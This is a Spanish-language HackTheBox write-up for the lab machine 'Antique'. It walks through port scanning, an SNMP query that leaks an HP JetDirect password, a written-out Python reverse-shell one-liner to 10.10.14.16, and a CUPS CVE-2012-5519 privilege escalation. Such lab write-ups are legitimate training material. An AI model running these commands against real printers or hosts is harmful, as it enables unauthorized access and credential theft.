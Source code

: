 ```yaml
---
title: Antique
published: 2025-03-21
image: "./logo.png"
tags: [Easy, SNMP Enum, Netowrk Printer Abuse, CVE-2012-5519, eJPT ]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- SNMP Enumeration
- Network Printer Abuse
- CVE-2012-5519

### Preparación

- eJPT

***

## Reconocimiento

Para comenzar usaremos el comando **scan**, para ver que puertos abiertos tiene la máquina:

```sh
scan () {
	sudo nmap -sS --min-rate=5000 -p- --open -vvv -n -Pn "$1" -oG "nmap/AllPorts"
}
```

Nos devuelve lo siguiente:

```
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63
```

### Telnet

Solo vemos el puerto **23** que corresponde al servicio **telnet**. Vamos a conectarnos con el comando:

```
telnet 10.10.11.107
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FChMY3zAAwsvvi4yQsLd3%2F1.png?alt=media&#x26;token=13b3bc90-ed0c-49ed-be65-56b887e6d836" alt=""><figcaption></figcaption></figure>

Vemos que es un **HP JetDirect** que buscando en google es un servidor de impresión. Vamos ahora a hacer un escaneo **UDP** en vez de **TCP**.

```
sudo nmap -sU --top-ports 10 -sV 10.10.11.107
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FzjCwxsrq4nxhKp4HUAQd%2F2.png?alt=media&#x26;token=61463237-6cc4-4776-b394-08a0d99c2187" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando información sobre el servicio **SNMP** en **HP JetDirect**, podemos ver un problema de seguridad grave en este artículo ([https://www.exploit-db.com/exploits/22319](https://www.exploit-db.com/exploits/22319)). Añadiremos el dominio `antique.htb` a `/etc/hosts`, y ejecutamos el siguiente comando:

```sh
snmpwalk -v 2c -c public antique.htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

```sh
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

La vulnerabilidad habla de que si decodificamos esos bits que nos devuelve es bastante probable que encontremos la contraseña de la impresora. Esto se debe a un fallo de seguridad que filtra la contraseña en algunas circunstancias. Lo decodificaremos con la herramienta **xxd** que se usa especialmente en hexadecimal:

```sh
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 \106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
```

```
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5%
```

Podríamos intentar a loguearnos con `P@ssw0rd@123!!123`&#x20;

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFrl82by8JUJiW2SXcPIO%2F3.png?alt=media&#x26;token=4227459d-3824-47e1-bb7c-007b83fadd85" alt=""><figcaption></figcaption></figure>

Una vez teniendo esto podemos intentar entablar una reverse shell a nuestra máquina para mayor comodidad. Haremos una con **python3** con el siguiente comando:

```sh
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FH0U2n0FX9hFJENBwbLBq%2F4.png?alt=media&#x26;token=0a8d8b39-5efa-416c-a1ba-0c7d280f5736" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para comenzar, veremos que puertos abiertos hay en el sistema, usaremos el comando **ss**. A continuación una explicación de este comando y los parámetros que usaremos.

El comando `ss` en Linux se utiliza para mostrar información sobre las conexiones de red y los sockets en uso en el sistema. Es una alternativa más rápida y eficiente que `netstat`.

El parámetro `-tulpn` tiene el siguiente significado:

* `-t` → Muestra solo sockets TCP.
* `-u` → Muestra solo sockets UDP.
* `-l` → Muestra solo sockets en estado de escucha (listening).
* `-p` → Muestra el proceso que está usando el socket.
* `-n` → Muestra las direcciones y puertos en formato numérico (sin resolver nombres de dominio).

```
ss -tulpn
```

```
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1039,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
```

Podemos ver el puerto **631**, vamos a hacer un curl desde la máquina comprometida a ver que podemos encontrar.

```
curl http://127.0.0.1:631
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
	<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
	<TITLE>Home - CUPS 1.6.1</TITLE>
	<LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
	<LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>...
```

### Cups (CVE-2012-5519)

Vemos que está corriento **Cups**, podemos buscar vulnerabilidades para dicha versión la **1.6.1**. Buscando en internet encontramos un exploit que permite la lectura de archivos con privilegios. ([https://github.com/p1ckzi/CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519)).

Si la ejecutamos en la máquina víctima podremos leer `/root/root.txt`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FwWQREzazKRfy273B2vkl%2F5.png?alt=media&#x26;token=30354c02-4038-4a37-85a5-c8c031be65f4" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/400)

---